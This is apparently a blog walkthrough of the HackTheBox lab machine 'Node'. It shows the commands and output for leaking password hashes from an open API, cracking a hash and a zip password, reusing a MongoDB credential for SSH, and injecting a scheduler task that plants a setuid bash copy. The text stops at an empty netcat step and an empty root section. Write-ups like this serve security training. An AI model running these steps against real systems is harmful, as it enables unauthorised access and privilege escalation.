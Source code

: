 ```yaml
---
layout: post
title: Hackthebox None Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-06/node-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box "Node".<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.58 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-05 21:28 EEST
Nmap scan report for 10.10.10.58
Host is up (0.040s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_  Logs: /login
| hadoop-tasktracker-info:
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.96 seconds
{% endhighlight %}


## 2. Getting User

Using Burp Suite, we can find an interesting HTTP request to "/api/users/latest" on port 3000.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-06/node-badge.png)

Then, access to the API.<br>
We can see some passwords for user "tom", "mark" and "rastating".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/latest | jq
[
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

Next, try "/api/users".<br>
We can find an admin user "myP14ceAdm1nAcc0uNT".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/ | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

We can crack the password using <a href="https://crackstation.net/">Crackstation.net</a>.<br>
The cracked password is "manchester".
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-06/node-badge.png)

We can download a file "myplace.backup" base64 encoded.<br>
Try to decode with base64 command.
{% highlight shell %}
root@kali:~# cat myplace.backup | base64 --decode > myplace
root@kali:~# file myplace
myplace: Zip archive data, at least v1.0 to extract
{% endhighlight %}

Since the zip file is password protected, try to brute-force using "fcrackzip".<br>
The password is "magicword".
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:

root@kali:~# fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace
possible pw found: magicword ()
{% endhighlight %}

Then, unzip the archive.
It looks like a source code of a NodeJS web application.
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:
  inflating: var/www/myplace/package-lock.json
  inflating: var/www/myplace/node_modules/serve-static/README.md
  inflating: var/www/myplace/node_modules/serve-static/index.js

---
{% endhighlight %}

Take a look at the source code.<br>
In "/var/www/myplace/app.js", we can find a mongodb credential for user "mark".
{% highlight shell %}
root@kali:~/var/www/myplace# cat app.js | grep mongo
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
    console.log('[!] Failed to connect to mongodb');
{% endhighlight %}

We can use the credential for SSH connection.
{% highlight shell %}
mark:5AYRft73VtFpc84k
{% endhighlight %}
{% highlight shell %}
root@kali:~# ssh mark@10.10.10.58
mark@10.10.10.58's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.




              .-. 
        .-'``(|||) 
     ,`\ \    `-`.                 88                         88 
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 
        `-..-(   ) 
              `-` 




The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
{% endhighlight %}

However, we are still not capable of getting user.txt.<br>
We have other 2 users.
{% highlight shell %}
mark@node:/home$ ls -l
total 12
drwxr-xr-x 2 root root 4096 Aug 31  2017 frank
drwxr-xr-x 3 root root 4096 Sep  3  2017 mark
drwxr-xr-x 6 root root 4096 Sep  3  2017 tom
{% endhighlight %}

If take a look at the processes, we can see 2 processes by another user "tom".
{% highlight shell %}
mark@node:~$ ps aux | grep tom
tom       1211  0.0  5.8 1074616 44232 ?       Ssl  19:31   0:03 /usr/bin/node /var/scheduler/app.js
tom       1231  0.0  6.6 1024156 50068 ?       Ssl  19:31   0:04 /usr/bin/node /var/www/myplace/app.js
mark      1610  0.0  0.1  14228  1020 pts/0    S+   23:05   0:00 grep --color=auto tom
{% endhighlight %}


{% highlight shell %}
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k scheduler
MongoDB shell version: 3.2.16
connecting to: scheduler
> db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/tbash; /bin/chown tom:admin /tmp/tbash; chmod g+s /tmp/tbash; chmod u+s /tmp/tbash"});
WriteResult({ "nInserted" : 1 })
> exit
bye
{% endhighlight %}


{% highlight shell %}
mark@node:/tmp$ ./tbash -p
tbash-4.3$ id
uid=1001(mark) gid=1001(mark) euid=1000(tom) egid=1002(admin) groups=1002(admin),1001(mark)
{% endhighlight %}


Launch a netcat listener.
{% highlight shell %}

{% endhighlight %}

## 3. Getting Root


